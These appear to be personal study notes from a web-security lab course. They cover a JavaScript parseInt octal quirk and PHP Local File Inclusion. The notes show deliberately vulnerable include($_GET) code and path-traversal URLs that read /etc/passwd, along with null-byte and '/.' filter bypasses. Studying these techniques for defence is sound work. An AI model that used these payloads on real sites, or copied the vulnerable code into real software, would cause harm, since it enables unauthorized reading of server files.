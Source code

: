 # Web vuln
```
parseInt	# if using different radix (bases) in different lines, 
		# it treats strings that start with 0 as an octa
console.log(parseInt('01000')); //	# returns 512
console.log(parseInt('01000', 10)); //	# return 1000




```
===============================================================================
# File Inclusion 
```

------------------------------------------------------------------
Local file inclusion (LFI):

http://webapp.thm/get.php?file=userCV.pdf
protocol://domain_name/file_name(? == query string begin)parameter=required_file_to_access

- Path traversal vulnerabilities occur when the user's input is passed to a function such as file_get_contents in PHP.
- With PHP, using functions such as include, require, include_once, and require_once
- include function allows us to include any called files into the current page

Example 1:
<?PHP 
	include($_GET["lang"]);		# the lang parameter calls to EN.php or AR.php from user input for choosing language 
?>
http://webapp.thm/index.php?lang=EN.php
http://webapp.thm/index.php?lang=AR.php

Example 2:
<?PHP 
	include("languages/". $_GET['lang']);		# the lang parameter calls to the php files in the /language dir
?>
http://webapp.thm/index.php?lang=../../../../etc/passwd
Warning: include(includes/jlkl)	.....			# if you see an error related to "include", this would be a chance to exploit it

---
NULL BYTE (%00 or 0x00 in hex)				#  trick the web app into disregarding whatever comes after the Null Byte
example:
developer specifies the file extension of input to be .php, so if we request /etc/passwd, we get warning: include(languages/THM.php);
bypass:
http://webapp.thm/index.php?lang=../../../../etc/passwd%00

---
Current directory trick:
to bypass the keyword filter use %00 or /. at the end of the filtered keyword
../../../../etc/passwd/.				# in this case the keyword /etc/passwd is filtered

---
empty strings:
When we input ../../../../etc/passwd and the error is Warning: include(languages/etc/passwd)... this means the web application replaces the ../ with the empty string.
```